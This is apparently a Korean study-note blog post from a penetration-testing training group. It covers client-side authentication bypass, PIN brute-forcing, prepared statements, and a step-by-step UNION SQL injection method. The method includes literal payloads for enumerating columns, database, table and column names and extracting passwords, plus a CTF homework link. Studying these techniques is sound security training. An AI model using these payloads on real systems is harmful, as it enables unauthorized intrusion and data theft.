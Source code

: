 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[TIL] 정리"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-20
last_modified_at: 

tags: [TIL]
---
```


클라이언트 측 인증

admin is mine -> 풀이과정 블로그 작성

session을 먼저 삽입하고 페이지 이동

분리
내가 비밀번호를 바꿀 수 있던지
비밀번호를 알아내던지

어떤 방식으로 고민을 해야 하는가?
어떻게 동작하느냐? -> 직접 만들어보기
sql query문 직접 실행해보기
왜 됐는 지 확인하기
1. 문제 원인 찾기
2. 문제 해결하기

하나씩

burp how to modify response

남들의 문제는 원인을 생각하지 마라

https://www.redirhub.com/ko/blog/redirect-types-and-seo-effects-2
https://developer.mozilla.org/ko/docs/Web/HTTP/Redirections

pincode crack 문제 직접 만들어보기
오류 횟수의 제한이 없다
-> 횟수의 제한을 두려면 어떻게 만들어야 하는가?

sql injection
-> prepared statement
1. db를 사용하는 곳
2. 그 데이터가 화면에 나오는가? 안 나오는가?
    1. 게시판
    2. 로그인, 아이디 중복체크 등

웹페이지에 데이터가 나오는 경우에서 데이터를 추출하는 방법
union
join은 안되냐??

order by
출력되는 데이터 정렬할 때 사용
SELECT ~ ORDER BY [COLUMN]

UNION SQL INJECTION
Process
1. sql injection 포인트 찾기
' and '1' = '1
2. column 개수 찾기
' order by 1...n #
3. 출력되는 column 위치 찾기
' union select 1, 2, 3, 4 #
-> select 1, 2, 3, 4가 왜 정상적으로 작동하는 거야???
-> ' union select 1, pass, 3, 4 from member #
4. db 이름 확인
select database()
-> ' union select 1, database(), 3, 4 from member #
5. table 이름 확인
select table_name from information_schema.tables where table_schema = [DB 이름]
-> ' union select 1, table_name, 3, 4 from information_schema.tables where table_schema = [DB 이름] #
6. column 이름 확인
select column_name from information_schema.columns where table_name = [table 이름]
-> ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = [table 이름] #
7. data 추출

과제
1. union sql injection 복습
2. doldol 데이터만 출력하기 하나만 나오게
ctf.segfaulthub.com:1020/sqlinjection_2_1.php
3. ctf 문제 풀기
